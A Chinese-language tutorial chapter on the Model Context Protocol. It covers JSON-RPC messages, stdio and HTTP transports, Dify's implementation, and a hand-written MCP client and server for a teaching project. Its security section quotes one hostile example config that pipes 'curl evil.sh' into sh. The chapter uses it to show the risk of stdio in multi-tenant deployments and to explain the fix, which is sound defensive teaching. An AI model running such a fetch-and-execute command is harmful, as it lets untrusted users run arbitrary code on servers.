


# 第 20 章 MCP 协议

> 本章目标：理解 MCP（Model Context Protocol）在协议层面到底长什么样；手写一个 MCP 客户端（支持 stdio 和 Streamable HTTP 两种传输）、一个零依赖的 MCP Server，并把 mini-dify 的工作流暴露成 MCP Server。
> 前置：第 19 章。对应代码：mini-dify **v0.4** `backend/app/mcp/client.py`、`app/mcp/server.py`、`app/tools/mcp_tool.py`、`examples/mcp_demo_server.py`。

## 20.1 问题：工具能不能像 USB 设备一样即插即用

第 19 章里，每种工具来源都要写专门的接入代码。如果所有工具都遵循**同一套协议**，平台只需要实现一次协议，就能接入任何工具。反过来，一个工具实现一次协议，就能被任何平台使用。

**MCP** 就是这样一套协议，由 Anthropic 在 2024 年提出，现在已经被 Claude Desktop、Cursor、VS Code、Dify 等广泛支持：



MCP 不止有工具（tools），还有资源（resources）、提示词（prompts）等能力。本章只讲平台最常用的**工具**。

## 20.2 协议本身：JSON-RPC 2.0 + 四条消息

MCP 的消息格式是 JSON-RPC 2.0：

```json
{"jsonrpc": "2.0", "id": 1, "method": "tools/list", "params": {}}          ← 请求（有 id）
{"jsonrpc": "2.0", "id": 1, "result": {"tools": [...]}}                     ← 响应（id 对应请求）
{"jsonrpc": "2.0", "method": "notifications/initialized"}                    ← 通知（没有 id，不需要响应）
{"jsonrpc": "2.0", "id": 1, "error": {"code": -32601, "message": "..."}}    ← 错误
```

一个只需要“使用工具”的客户端，完整的交互只有四步：

```
→ initialize {protocolVersion, capabilities, clientInfo}
← {protocolVersion, capabilities: {tools: {}}, serverInfo}
→ notifications/initialized                                  （通知，没有响应）
→ tools/list
← {tools: [{name, description, inputSchema}]}               ← inputSchema 就是 JSON Schema
→ tools/call {name, arguments}
← {content: [{type: "text", text: "..."}], structuredContent?: {...}, isError: false}
```

## 20.3 传输方式

同样的 JSON-RPC 消息，可以用不同的方式传输：

| 传输方式 | 怎么工作 | 适用场景 |
|---|---|---|
| **stdio** | 客户端启动 Server **子进程**，每行一条 JSON，通过 stdin/stdout 收发 | 本地工具（Claude Desktop 里最常见） |
| **Streamable HTTP**（2025-03-26 版本引入） | 每条消息都是一个 POST 请求；响应可以是 JSON，**也可以是 SSE 流**；Server 可以通过 `Mcp-Session-Id` 头分配会话 ID，客户端之后的请求要带上它 | 远程服务 |
| SSE（旧版） | GET 建立 SSE 长连接接收消息 + POST 发送消息 | 旧版本兼容 |

## 20.4 Dify 是怎么做的

### 20.4.1 MCP 客户端

```python
# api/core/mcp/mcp_client.py
class MCPClient:                                              # 20
    def __enter__(self): self._initialize(); ...              # 50
    def _initialize(self):
        """Initialize the client with fallback to SSE if streamable connection fails"""
        # 根据 URL 的特征选择 streamable HTTP 或 SSE；失败时自动换另一种再试
    def connect_server(self, client_factory, method_name): ...   # 87
    def list_tools(self) -> list[Tool]: ...                   # 113
    def invoke_tool(self, tool_name, tool_args) -> CallToolResult: ...   # 120
```

```
api/core/mcp/
├── client/streamable_client.py   Streamable HTTP 传输
├── client/sse_client.py          SSE 传输
├── session/client_session.py     JSON-RPC 会话：请求 ID 管理、响应匹配
├── auth/auth_flow.py             OAuth 2.1 授权（远程 MCP Server 需要用户授权时）
├── server/streamable_http.py     把 Dify 应用暴露成 MCP Server
└── types.py                      协议数据结构
```

**Dify 的 MCP 客户端只支持远程传输（HTTP/SSE），不支持 stdio。** 原因很简单：Dify 是一个多租户的云平台，允许用户配置“在服务器上执行某个命令”，就等于允许任意用户在服务器上执行任意代码。

协议版本协商（`api/core/mcp/types.py`）：

```python
LATEST_PROTOCOL_VERSION = "2025-06-18"
SERVER_SUPPORTED_PROTOCOL_VERSIONS = frozenset({"2024-11-05", "2025-03-26", "2025-06-18"})
```

### 20.4.2 把应用暴露成 MCP Server

```python
# api/controllers/mcp/mcp.py:45
@mcp_ns.route("/server/<string:server_code>/mcp")
class MCPAppApi(Resource):
    def post(self, server_code: str):
        mcp_server, app = self._get_mcp_server_and_app(server_code, session)   # 用一个秘密的 server_code 定位应用
        ...
        return handle_mcp_request(...)                    # api/core/mcp/server/streamable_http.py:61
```

`streamable_http.py` 分别处理 `initialize`（第 159 行）、`tools/list`（第 181 行）、`tools/call`（第 206 行）和 `ping`（第 154 行）。应用的输入字段会被转换成工具的 `inputSchema`（`build_parameter_schema`，第 240 行），调用时运行应用并返回结果。URL 里的 `server_code` 相当于访问凭证，知道 URL 的人就能调用这个应用。

## 20.5 从零实现

### 20.5.1 一个零依赖的 MCP Server

先写 Server，因为它最能说明协议的本质，只要 70 行左右：

```python
# examples/mcp_demo_server.py
TOOLS = [
    {"name": "get_weather", "description": "Get today's weather for a city (demo data).",
     "inputSchema": {"type": "object", "properties": {"city": {"type": "string"}}, "required": ["city"]}},
    {"name": "word_count", "description": "Count characters and words in a text.",
     "inputSchema": {"type": "object", "properties": {"text": {"type": "string"}}, "required": ["text"]}},
]

def handle(msg: dict) -> dict | None:
    method, id_ = msg.get("method"), msg.get("id")
    if id_ is None:
        return None                                   # 通知：不需要回复
    if method == "initialize":
        result = {"protocolVersion": "2025-03-26", "capabilities": {"tools": {}}, "serverInfo": {"name": "demo", "version": "1.0"}}
    elif method == "tools/list":
        result = {"tools": TOOLS}
    elif method == "tools/call":
        p = msg.get("params") or {}
        result = call(p.get("name", ""), p.get("arguments") or {})
    elif method == "ping":
        result = {}
    else:
        return {"jsonrpc": "2.0", "id": id_, "error": {"code": -32601, "message": f"method not found: {method}"}}
    return {"jsonrpc": "2.0", "id": id_, "result": result}

def main():
    for line in sys.stdin:                            # stdio 传输：一行一条消息
        reply = handle(json.loads(line))
        if reply is not None:
            sys.stdout.write(json.dumps(reply, ensure_ascii=False) + "\n")
            sys.stdout.flush()                        # 一定要 flush，否则客户端会一直等
```

在命令行里直接和它对话：

```bash
$ python examples/mcp_demo_server.py
{"jsonrpc":"2.0","id":1,"method":"initialize","params":{"protocolVersion":"2025-03-26","capabilities":{},"clientInfo":{"name":"me","version":"1"}}}
{"jsonrpc": "2.0", "id": 1, "result": {"protocolVersion": "2025-03-26", "capabilities": {"tools": {}}, "serverInfo": {"name": "demo", "version": "1.0"}}}
{"jsonrpc":"2.0","id":2,"method":"tools/call","params":{"name":"get_weather","arguments":{"city":"杭州"}}}
{"jsonrpc": "2.0", "id": 2, "result": {"content": [{"type": "text", "text": "杭州：小雨 24°C"}], "isError": false}}
```

真实项目一般会用官方 SDK（`pip install mcp`，然后用 `FastMCP`），它帮你处理了消息帧、会话、版本协商等细节。但协议本身就是这么简单。

### 20.5.2 MCP 客户端：两种传输

```python
# backend/app/mcp/client.py
class StdioTransport(_Transport):
    def __init__(self, command, args, env=None):
        self.proc = subprocess.Popen([command, *args], stdin=PIPE, stdout=PIPE, stderr=PIPE, text=True, bufsize=1)
    def request(self, method, params=None):
        self._id += 1
        self._send({"jsonrpc": "2.0", "id": self._id, "method": method, "params": params or {}})
        while True:
            line = self.proc.stdout.readline()
            if not line:
                raise MCPError(f"MCP server exited: {stderr 的最后 500 个字符}")
            msg = json.loads(line)
            if msg.get("id") != self._id:
                continue                              # 跳过 Server 发来的通知、日志等
            if "error" in msg:
                raise MCPError(msg["error"]["message"])
            return msg.get("result")

class HttpTransport(_Transport):
    def request(self, method, params=None):
        self._id += 1
        resp = self._post({"jsonrpc": "2.0", "id": self._id, "method": method, "params": params or {}})
        if resp.headers.get("content-type", "").startswith("text/event-stream"):
            for line in resp.text.splitlines():       # 响应是 SSE：按 id 找到属于我们的那条消息
                if line.startswith("data:"):
                    msg = json.loads(line[5:].strip())
                    if msg.get("id") == self._id:
                        break
        else:
            msg = resp.json()
        ...
    def _post(self, msg):
        headers = {"Accept": "application/json, text/event-stream", ...}   # 两种响应格式都要接受
        if self.session_id:
            headers["Mcp-Session-Id"] = self.session_id
        resp = self.client.post(self.url, json=msg, headers=headers)
        self.session_id = resp.headers.get("mcp-session-id", self.session_id)   # Server 分配的会话 ID
        return resp

class MCPClient:
    def __enter__(self):
        result = self.transport.request("initialize", {"protocolVersion": PROTOCOL_VERSION,
                                                       "capabilities": {}, "clientInfo": CLIENT_INFO})
        self.server_info = (result or {}).get("serverInfo", {})
        self.transport.notify("notifications/initialized")
        return self
    def list_tools(self): return (self.transport.request("tools/list") or {}).get("tools", [])
    def call_tool(self, name, arguments): return self.transport.request("tools/call", {"name": name, "arguments": arguments}) or {}
```

和 Dify 的 `MCPClient` 一样，**每次调用都建立一个新连接**（`with MCPClient.from_config(cfg) as c: ...`）。这种方式简单，也不需要维护连接状态，代价是每次调用都要重新握手。对 stdio 来说，这意味着每次调用都要启动一次子进程。如果需要更高的性能，可以按 provider 维护长连接池。

### 20.5.3 MCP Server → 工具

添加 MCP provider 时，**立即连接一次，把工具列表拉回来存进数据库**（`discover_tools`）。之后列出工具时不需要再连接 Server（Dify 同样会缓存工具列表）。调用工具时才真正连接：

```python
class MCPTool(Tool):
    def invoke(self, args):
        with MCPClient.from_config(self.config) as client:
            result = client.call_tool(self.name, args)
        texts = [c.get("text", "") for c in result.get("content", []) if c.get("type") == "text"]
        out = ToolResult(text="\n".join(texts), json=result.get("structuredContent"))
        if result.get("isError"):
            raise ToolError(out.text or "MCP tool error")     # 由 invoke_tool 转换成 Agent 能看到的错误
        return out
```

### 20.5.4 把工作流暴露成 MCP Server

```python
# backend/app/mcp/server.py（v1.0）
@router.post("/mcp/{app_id}")
async def mcp_endpoint(app_id: str, request: Request, key_app: App = Depends(app_from_api_key)):
    if key_app.id != app_id:
        raise HTTPException(403, "API Key 不属于该应用")
    msg = await request.json()
    method, id_ = msg.get("method"), msg.get("id")
    tool = _load_tool(app_id)                         # 复用第 19 章的 WorkflowTool
    if id_ is None:
        return Response(status_code=202)              # 通知：202，没有响应体（Streamable HTTP 规范）
    if method == "initialize":
        return _ok(id_, {"protocolVersion": PROTOCOL_VERSION, "capabilities": {"tools": {"listChanged": False}},
                         "serverInfo": {"name": f"mini-dify:{tool.label}", "version": "0.4.0"}},
                   session=str(uuid.uuid4()))          # 分配会话 ID
    if method == "tools/list":
        return _ok(id_, {"tools": [{"name": tool.name, "description": tool.description, "inputSchema": tool.parameters}]})
    if method == "tools/call":
        result, _ = invoke_tool(tool, params.get("arguments") or {})
        return _ok(id_, {"content": [{"type": "text", "text": result.to_observation()}],
                         **({"structuredContent": result.json} if isinstance(result.json, dict) else {}),
                         "isError": result.is_error})
    return _err(id_, -32601, f"method not found: {method}")
```

每个请求都直接返回一个 JSON 响应，这完全符合 Streamable HTTP 规范（SSE 响应是可选的）。

**鉴权**：v0.4 的这个端点没有鉴权，任何知道 app_id 的人都能调用。v1.0 改为要求携带应用的 API Key（`Authorization: Bearer app-xxx`），Dify 则是在 URL 里放一个秘密的 server_code。总之，**绝不能把一个会执行业务逻辑的端点不加保护地暴露出去**。

### 20.5.5 安全：stdio 是一把双刃剑

mini-dify 支持 stdio，在自己的笔记本上用起来很方便。但在 v1.0 的多租户部署中，这意味着**任何 editor 角色的用户，都可以配置 `command: bash, args: ["-c", "curl evil.sh | sh"]`**。写这一章时，正是对照 Dify“只支持远程传输”的设计，才发现了这个问题。修复方法是：

- 新增配置项 `MCP_ALLOW_STDIO`：本地开发时默认开启，`docker/docker-compose.yml` 里设为 `false`；
- 添加 provider 和调用工具时，**两处都会检查**这个开关（即使数据库里已经存在 stdio provider，关闭开关后也无法再调用）；
- 回归测试 `test_stdio_mcp_can_be_disabled`。

第 27 章会系统地讨论平台安全。

## 20.6 运行与验证

```bash
cd code/mini-dify && git checkout v1.0 && cd backend
uv run pytest -q tests/test_agent.py -k mcp
```

**用 mini-dify 自己的 MCP 客户端，调用部署在 Docker 里的 mini-dify MCP Server**（写作时的实际输出）：

```
mcp server: {'name': 'mini-dify:mcp app', 'version': '0.4.0'} ['workflow_65fb7fe098f5']
mcp call: {"result": "（mock）我收到了：via MCP"}
```

**在 UI 中**：工具页 → “＋ MCP Server” → stdio，命令 `python3`，参数 `../examples/mcp_demo_server.py` → 保存，就会出现 get_weather 和 word_count 两个工具。点击 get_weather，输入“北京”，返回 `北京：晴 26°C`。然后在聊天 Playground 里勾选 get_weather，Agent 就能调用它了：



**接入 Claude Desktop 等客户端**：在客户端的 MCP 配置里，填入 mini-dify 应用的 MCP URL，并加上 `Authorization: Bearer <应用的 API Key>` 请求头，你的工作流就成了那个客户端的一个工具。

## 20.7 练习

1. **巩固**：通知（notification）为什么不需要响应？如果 Server 对 `notifications/initialized` 也回复了一条消息，按我们的 StdioTransport 实现会发生什么？
2. **扩展**：给 MCP Server 增加 `resources/list` 和 `resources/read`，把应用的最近 10 次运行记录作为资源暴露出去。
3. **读源码**：读 Dify 的 `api/core/mcp/auth/auth_flow.py`，概述远程 MCP Server 需要 OAuth 授权时的完整流程（发现元数据 → 动态客户端注册 → 授权码 + PKCE → 换取 token → 刷新 token）。

## 20.8 延伸阅读

- MCP 规范：<https://modelcontextprotocol.io/specification>（重点阅读 Transports 和 Tools 两章）
- 官方 Python SDK：`mcp`（`FastMCP` 可以几行代码写出一个 Server）
